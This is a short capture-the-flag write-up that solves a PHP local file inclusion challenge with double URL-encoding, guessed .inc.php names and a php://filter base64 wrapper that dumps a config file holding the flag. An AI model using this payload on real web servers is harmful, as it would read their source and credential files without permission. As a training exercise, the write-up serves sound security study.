

We use the double url-encoding using *Hackvertor* extension in burp, very recommended extension.

When trying to get file, we can see it appends `.inc.php`.



Okay, there are several common `.inc.php` files, chatgpt gave me this list:
| Filename            | Purpose                                               |
| ------------------- | ----------------------------------------------------- |
| `config.inc.php`    | Main configuration (DB credentials, constants)        |
| `conf.inc.php`      | Same as above, alternative naming                     |
| `db.inc.php`        | Database connection settings                          |
| `functions.inc.php` | Site-wide helper functions                            |
| `header.inc.php`    | Page header (HTML, navigation, session check)         |
| `footer.inc.php`    | Page footer (closing tags, links)                     |
| `init.inc.php`      | Initialization script (error handling, session start) |
| `auth.inc.php`      | Authentication/authorization logic                    |
| `session.inc.php`   | Session management, login status checks               |
| `login.inc.php`     | Login processing logic                                |
| `logout.inc.php`    | Logout routine                                        |
| `admin.inc.php`     | Admin-only functions or access control                |
| `vars.inc.php`      | Global variables/constants                            |
| `lang.inc.php`      | Language/translation variables                        |
| `csrf.inc.php`      | CSRF token generation/validation                      |
| `input.inc.php`     | Input validation/sanitization                         |
| `upload.inc.php`    | File upload handling                                  |
| `email.inc.php`     | Email sending functions                               |
| `mailer.inc.php`    | Custom mailer setup                                   |
| `logger.inc.php`    | Logging functions (debug, error, audit)               |
| `cache.inc.php`     | Caching system (memcached, file cache, etc.)          |
| `api.inc.php`       | API-related helper functions                          |
| `menu.inc.php`      | Navigation menu structure                             |
| `error.inc.php`     | Error message handling or templates                   |
| `form.inc.php`      | Form generation or validation helpers                 |

When we try `conf`, we get a `200 OK` repsonse! 
That means it running this script. Let's get it using php wrapper:
```
php://filter/convert.base64-encode/resource=conf
```
and we get this string:
```
PD9waHAKICAkY29uZiA9IFsKICAgICJmbGFnIiAgICAgICAgPT4gIlRoMXNJc1RoM0ZsNGchIiwKICAgICJob21lIiAgICAgICAgPT4gJzxoMj5XZWxjb21lPC9oMj4KICAgIDxkaXY+V2VsY29tZSBvbiBteSBwZXJzb25hbCB3ZWJzaXRlICE8L2Rpdj4nLAogICAgImN2IiAgICAgICAgICA9PiBbCiAgICAgICJnZW5kZXIiICAgICAgPT4gdHJ1ZSwKICAgICAgImJpcnRoIiAgICAgICA9PiA0NDE3NTk2MDAsCiAgICAgICJqb2JzIiAgICAgICAgPT4gWwogICAgICAgIFsKICAgICAgICAgICJ0aXRsZSIgICAgID0+ICJDb2ZmZWUgZGV2ZWxvcGVyIEBNZWdhdXBsb2FkIiwKICAgICAgICAgICJkYXRlIiAgICAgID0+ICIwMS8yMDEwIgogICAgICAgIF0sCiAgICAgICAgWwogICAgICAgICAgInRpdGxlIiAgICAgPT4gIkJlZCB0ZXN0ZXIgQFlvdXJNb20ncyIsCiAgICAgICAgICAiZGF0ZSIgICAgICA9PiAiMDMvMjAxMSIKICAgICAgICBdLAogICAgICAgIFsKICAgICAgICAgICJ0aXRsZSIgICAgID0+ICJCZWVyIGRyaW5rZXIgQE5lYXJlc3RCYXIiLAogICAgICAgICAgImRhdGUiICAgICAgPT4gIjEwLzIwMTQiCiAgICAgICAgXQogICAgICBdCiAgICBdLAogICAgImNvbnRhY3QiICAgICAgID0+IFsKICAgICAgImZpcnN0bmFtZSIgICAgID0+ICJKb2huIiwKICAgICAgImxhc3RuYW1lIiAgICAgID0+ICJTbWl0aCIsCiAgICAgICJwaG9uZSIgICAgICAgICA9PiAiMDEgMzMgNzEgMDAgMDEiLAogICAgICAibWFpbCIgICAgICAgICAgPT4gImpvaG4uc21pdGhAdGhlZ2FtZS5jb20iCiAgICBdLAogICAgImdsb2JhbF9zdHlsZSIgID0+ICc8c3R5bGUgbWVkaWE9InNjcmVlbiI+CiAgICAgIGJvZHl7CiAgICAgICAgYmFja2dyb3VuZDogcmdiKDIzMSwgMjMxLCAyMzEpOwogICAgICAgIGZvbnQtZmFtaWx5OiBUYWhvbWEsVmVyZGFuYSxTZWdvZSxzYW5zLXNlcmlmOwogICAgICAgIGZvbnQtc2l6ZTogMTRweDsKICAgICAgfQogICAgICBkaXYjbWFpbnsKICAgICAgICBwYWRkaW5nOiAyMHB4IDEwcHg7CiAgICAgIH0KICAgICAgbmF2ewogICAgICAgIGJvcmRlcjogMXB4IHNvbGlkIHJnYigxMDEsIDEwMSwgMTAxKTsKICAgICAgICBmb250LXNpemU6IDA7CiAgICAgIH0KICAgICAgbmF2IGF7CiAgICAgICAgZm9udC1zaXplOiAxNHB4OwogICAgICAgIHBhZGRpbmc6IDVweCAxMHB4OwogICAgICAgIGJveC1zaXppbmc6IGJvcmRlci1ib3g7CiAgICAgICAgZGlzcGxheTogaW5saW5lLWJsb2NrOwogICAgICAgIHRleHQtZGVjb3JhdGlvbjogbm9uZTsKICAgICAgICBjb2xvcjogIzU1NTsKICAgICAgfQogICAgICBuYXYgYS5hY3RpdmV7CiAgICAgICAgY29sb3I6ICNmZmY7CiAgICAgICAgYmFja2dyb3VuZDogcmdiKDExOSwgMTM4LCAxNDQpOwogICAgICB9CiAgICAgIG5hdiBhOmhvdmVyewogICAgICAgIGNvbG9yOiAjZmZmOwogICAgICAgIGJhY2tncm91bmQ6IHJnYigxMTksIDEzOCwgMTQ0KTsKICAgICAgfQogICAgICBoMnsKICAgICAgICBtYXJnaW4tdG9wOjA7CiAgICAgIH0KICAgICAgPC9zdHlsZT4nCiAgXTsK
```

which is:
```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

**Flag:** ***`Th1sIsTh3Fl4g!`***
